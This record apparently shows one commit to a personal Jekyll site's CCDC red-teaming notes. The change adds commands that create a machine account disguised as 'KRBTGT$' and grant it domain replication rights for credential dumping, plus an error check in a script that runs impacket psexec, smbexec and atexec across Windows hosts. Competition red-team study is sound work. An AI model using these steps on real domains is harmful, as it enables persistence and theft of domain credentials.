

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/RedTeamingCCDC.md, in a window 1280 px wide and 900 px high, scrolled down 4262 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
updated notes

```diff
--- a/markdown/RedTeamingCCDC.md
+++ b/markdown/RedTeamingCCDC.md
@@ -173,6 +173,13 @@
 	- `impacket-psexec -k -no-pass Administrator@{DC_fqdn}`
 	- Make sure we can resolve both the domain AND the DC itself
 
+**Adding a new Computer Account**
+- Might be overlooked during normal user password rotations
+- `addcomputer.py -computer-name 'KRBTGT$' -computer-pass '{new_password}' -dc-host "{dc_ip}" -domain-netbios '{domain}' '{domain}'/'{owned_user}':'{owner_user_pass}'`
+- Then on Windows, give it permissions over the domain (so we can secretsdump)
+  - `dsacls 'DC={domain},DC={tld}' /I:T /G '{domain}\{machine_account}:CA;Replicating Directory Changes'`
+  - `dsacls 'DC={domain},DC={tld}' /I:T /G '{domain}\{machine_account}:CA;Replicating Directory Changes All'`
+
 **Shadow Copies**
 - Volume Shadow Service is a Microsoft backup technology that allows creation of snapshots
 - As a domain admin, we can create a shadow copy and extract the NTDS.dit database file
--- a/misc_scripts/exec_across_windows.py
+++ b/misc_scripts/exec_across_windows.py
@@ -131,6 +131,9 @@
             safe_print(f"[-] For {ip}: {tool} timed out.")
             continue
 
+        if tool == "psexec" and "[-] share 'SYSVOL' is not writable." in out:
+            safe_print(f"[-] For {ip}: {tool} failed.")
+            continue
 
         if (tool == "smbexec" or tool == "atexec") and '[-]' in out:
             safe_print(f"[-] For {ip}: {tool} failed.")
```
